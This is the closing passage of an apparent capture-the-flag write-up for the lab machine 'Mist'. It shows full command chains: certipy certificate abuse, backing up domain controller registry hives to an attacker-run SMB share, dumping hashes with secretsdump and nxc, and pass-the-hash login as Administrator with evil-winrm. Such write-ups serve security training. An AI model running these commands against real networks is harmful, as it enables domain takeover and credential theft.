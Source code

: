 So let's start : 

```bash
proxychains certipy req -u svc_cabackup@mist.htb -hashes :c9[...]b64 -dc-ip 192.168.100.100 -target DC01 -ca 'mist-DC01-CA' -template 'ManagerAuthentication' -upn "CA Backup" -key-size 4096

[*] Saved certificate and private key to 'svc_cabackup.pfx'

proxychains certipy auth -pfx svc_cabackup.pfx -domain mist.htb -dns-tcp -dc-ip 192.168.100.100

export KRB5CCNAME=svc_cabackup.ccache

proxychains certipy req -u 'svc_cabackup@mist.htb' -k -no-pass -dc-ip dc01.mist.htb -target dc01.mist.htb -ns 192.168.100.100 -template 'BackupSvcAuthentication' -ca 'mist-DC01-CA' -key-size 4096

proxychains certipy auth -pfx svc_cabackup.pfx -domain mist.htb -dns-tcp -dc-ip 192.168.100.100

export KRB5CCNAME=svc_cabackup.ccache
```
And now we can use ```impacket-reg``` to get the hash of the DC

```bash
smbserver.py -smb2support toto .

proxychains reg.py 'mist.htb/svc_cabackup@dc01.mist.htb' -k -no-pass -dc-ip 192.168.100.100 backup -o '\\10.10.14.7\toto\'

secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL

$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e7[...]60
```
And now dump ntds to get the hash of Administrator

```bash
proxychains -q nxc smb 192.168.100.100 -u 'DC01$' -H 'e7[...]60' --ntds

SMB 192.168.100.100 445 DC01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:b4[...]85:::

proxychains -q evil-winrm -u Administrator -H 'b4[...]85' -i 192.168.100.100
```
Nice !! if u have any questions you can dm me on [Instagram](https://instagram.com/eliott.la) or on discord at 'ethicxz.'